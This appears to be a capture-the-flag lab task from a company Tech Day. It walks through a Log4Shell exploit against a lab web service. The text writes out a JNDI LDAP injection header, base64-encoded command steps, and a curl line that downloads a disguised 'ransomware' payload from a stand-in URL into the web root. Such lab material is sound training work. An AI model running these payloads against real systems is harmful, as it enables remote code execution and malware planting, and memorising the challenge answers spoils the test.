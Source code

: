# Task 5: Drop It Like It’s Hot 🔥

## DESCRIPTION

Now that you’ve set up the malicious server, time to run the exploit.

To do this, you have to make a request to http://sudosingles-optimizer. But you’re going to include a specially crafted header to call back to your malicious LDAP server and execute a command.

For this challenge, the command you want to execute inside the sudosingles-optimizer container will reach out to a malicious URL and drop a scary payload onto the filesystem—a payload which will execute whenever a user visits the website.

## DETAILS

The malicious command you want to execute is:

curl PAYLOADDROPPERURL --output /srv/connectioncheck

Where PAYLOADDROPPERURL is the value found in FSSPayloadDropperUrl in the credential field below.

FSSPayloadDropperUrl is a special URL that can be used to drop a ransomware payload. When the above command executes in the container running sudosingles-optimizer, it will drop a nasty file in the /srv directory, disguised as something benign.

Just like before, you’ll make a request to your malicious LDAP server using curl on the attack machine. Open another Terminal Emulator window and run the following command:

curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'

Where PAYLOAD is the malicious command that we crafted above and YOURIP is the attack machine’s private IP.

However, you’ll notice that if you just try to substitute the malicious command for PAYLOAD, then run the whole request to sudosingles-optimizer above, the exploit won’t work. Something is missing…

Maybe you need to encode PAYLOAD somehow? Hm…

When you believe you’ve successfully performed the exploit, click “Verify” to check your work.

## NOTES

No actual ransomware is used in this challenge, so don’t worry. We’re just having fun here on Tech Day.

## SCORING

payloadChecker

## HINTS

### HINT 1

/Basic/Command/Base64 might be a hint! And the challenge said to "encode"… hmm……

### HINT 2

You need to encode the malicious command as base64, and add it to the ldap URL. For example: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/BASE_64_ENCODED_COMMAND}. If that isn’t working for you, triple-check to make sure that you have encoded the malicious command correctly.

### HINT 3

1. Craft the malicious command: curl PAYLOADDROPPERURL --output /srv/connectioncheck
2. Encode it as base64 using any tool. Base64encode.org is a great option.
3. Replace it in the command: curl http://sudosingles-optimizer -H 'X-Api-Version: ${jndi:ldap://YOURIP:1389/Basic/Command/Base64/PAYLOAD}'
4. Execute
